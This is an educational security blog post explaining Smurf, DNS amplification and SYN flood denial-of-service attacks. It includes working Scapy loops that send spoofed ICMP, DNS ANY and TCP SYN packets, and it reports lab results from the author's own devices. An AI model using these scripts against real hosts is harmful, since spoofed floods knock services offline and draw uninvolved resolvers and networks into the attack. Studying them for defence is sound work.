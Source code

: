 ```yaml
---
title: "An Introduction to a Few Network Attacks"
date: 2019-10-15
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Amplification
  - ICMP Spoofing
  - SYN Floods
  - Scapy
---
```


# Introduction
In a previous [post][dns], we had a look at spoofing DNS responses, which allowed us to redirect users to a web server running on our machine. In this post, we will look at a few network attacks that can lead to a DoS.

The below section is a basic refresher on ICMP and can be skipped. 

# ICMP
Internet Control Message Protocol (ICMP) is a protocol used primarily to report errors (source quench, unreachable destination, etc.) in sending IP packets. An ICMP packet has the following packet format.

![ICMP-Message-Format](../../assets/images/icmp_format.png)

The two codes relevant to the Smurf attack are:

1. 8 - for echo request message, and
2. 0 - for echo reply message

The above messages are commonly known as the ping messages and are used to test connectivity issues and obtain statistics about the connections of a network. When a host receives an ICMP echo request, it sends back an ICMP echo reply packet to the sender. The sender uses the replies to compute metrics such as the round trip time.  

# Smurf Attack
Since the IP address fields of an ICMP packet can be spoofed, the attacker can send an ICMP request message to the network's broadcast address claiming to be the target, which results in the target receiving the ICMP responses from all the live hosts on the network. If the number of responses is much higher than what the target can handle, it can result in a DoS. This is the idea behind the Smurf attack. 

This is an amplification of the traffic, i.e., for one packet sent by the attacker, the target receives *n* packets, where *n* is the number of hosts that respond. This dramatically improves the attacker's strength in taking the target down.

The following code can be utilized for a smurf attack.

```python
pkt = IP(src = target_ip, dst = broadcast_ip)/ICMP()
while True:
  send(pkt)
```

That's it. The above 3 lines of code are all it takes to simulate a Smurf attack. But most hosts these days are configured not to respond to an ICMP request on the broadcast address. To get over this hurdle, one mechanism is to send each host an invalid packet. On receiving the invalid packet, a host might send back an ICMP response to the target with the details of the error (larger than what attacker sends).

# DNS Amplification
Another way to attack a target is by spoofing DNS queries. Since the size of a DNS query is smaller than the response, the amount of work done by the attacker to send the DNS queries will be significantly lesser than what the target needs to do to process the replies. The following code shows how this can be done.

```python
while True:
  for name_server in g_name_servers:
    ip = IP(src = g_target_ip, dst = name_server)
    udp = UDP(sport=RandShort(), dport=53)
    dns = DNS(rd = 1,
            qd = DNSQR(
              qname = g_domain,
              qtype = "ANY"		# Play around to see which one returns max answer length
            )
          )

    # Create the spoofed DNS query and send it
    pkt = ip/udp/dns
    send(pkt, verbose = False)
```

The above code takes a list of DNS resolvers and queries each one with a spoofed IP address (set to the target). Each DNS resolver then sends the response to the target instead of the attacker. Since the size of the DNS response is much larger than the size of the query, the attacker has the upper hand while trying to overwhelm the target. If the responses are too many, the target will not be able to function, resulting in a DoS.

## DNS Amplification Results
The following image shows the IP address of the attacker (a Raspberry 3B+)

![pi_ifconfig](../../assets/images/syn-flood/pi_ifconfig.png)

and below we can see the target's (my laptop) IP address
![laptop_ipconfig](../../assets/images/syn-flood/laptop_ipconfig.png)

We run the script in the following manner.
![attack](../../assets/images/syn-flood/attack.png)

Looking at the intercepted messages on my laptop, we can see that DNS replies are being received for
queries never sent. We can see that the length of the DNS response is 124 bytes, which is much larger than the query the attacker has sent. 
![wireshark-output](../../assets/images/syn-flood/wireshark-output.png)

# SYN Flood
Moving on to the TCP layer, one attack that can result in a DoS is the SYN flood attack, where an attacker sends a large number of SYNs to various ports of the target and not respond to them. This results in a large number of half-open connections, and before the connections can time out, another SYN is sent to reset the timer. This will eventually lead to a DoS. The following code shows the implementation in python.

```python
# Create the IP layer
ip = IP(src = source_ip, dst = g_target_ip)   # Note that the source_ip can be spoofed

# Create the SYN packet
tcp = TCP(sport=RandShort(), dport=g_dest_ports, flags="S", seq=42)

# Create the packet and continuously send it to all the specified ports
pkt = ip/tcp
while True:
  send(pkt)
```
# SYN Flood Result
The script is run in the following manner.

![syn-flood-pi](../../assets/images/syn-flood/syn-flood-pi.png)

The SYN packets can be seen below.

![syn-flood-wireshark](../../assets/images/syn-flood/syn-flood-wireshark.png)

To specify more ports to send packets to, use the `-c` flag.


The full scripts are available on my github [page][page].

# Disclaimer
The attacks mentioned on any posts on my website are to be tested at your own risk. Please do not use them without the permission of the target host. I will not be responsible for any damage caused by running them.  

[dns]: https://fsec404.github.io/blog/DNS-hijacking/#results
[page]: https://github.com/venkat-abhi/network-attacks